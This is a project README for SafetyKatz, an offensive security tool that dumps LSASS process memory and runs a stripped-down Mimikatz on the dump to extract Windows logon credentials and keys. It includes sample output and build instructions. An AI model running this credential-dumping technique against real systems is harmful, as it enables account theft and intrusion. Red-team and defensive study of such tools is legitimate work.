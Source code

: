 # SafetyKatz

----

SafetyKatz is a combination of slightly modified version of [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) project and [@subtee](https://twitter.com/subtee)'s [.NET PE Loader] (https://github.com/re4lity/subTee-gits-backups/blob/master/PELoader.cs).

First, the [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump of LSASS to C:\Windows\Temp\debug.bin. Then @subtee's PELoader is used to load a customized version of Mimikatz that runs
**sekurlsa::logonpasswords** and **sekurlsa::ekeys** on the minidump file, removing the file after execution is complete.

#### Modifications

* @subtee's PE Loader was slightly modified so some of the pointer arithmetic worked better on .NET 3.5
* @gentilkiwi's Mimikatz project was modified to strip some functionality for size reasons, and to automatically run the sekurlsa::minidump mode (deleting the minidump file after). If you don't trust my compiled version, feel free to build it yourself :)


[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    C:\Temp>SafetyKatz.exe

    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug.bin
    [+] Dump successful!

    [*] Executing loaded Mimikatz PE

    .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  / *** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > http://pingcastle.com / http://mysmartlogon.com   *** /

    mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...

    Authentication Id : 0 ; 28935082 (00000000:01b983aa)
    Session           : Interactive from 0
    User Name         : blahuser
    Domain            : WINDOWS10
    Logon Server      : WINDOWS10
    Logon Time        : 7/15/2018 1:07:55 PM
    SID               : S-1-5-21-1473254003-2681465353-4059813368-1002
            msv :
            [00000003]
    Primary
            * Username : blahuser
            * Domain   : WINDOWS10

    ...(snip)...

    mimikatz # deleting C:\Windows\Temp\debug.bin


## Compile Instructions

We are not planning on releasing binaries for SafetyKatz, so you will have to compile yourself :)

SafetyKatz has been built against.NET 3.5 and is compatible with[Visual Studio 2015 Community Edition] (https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
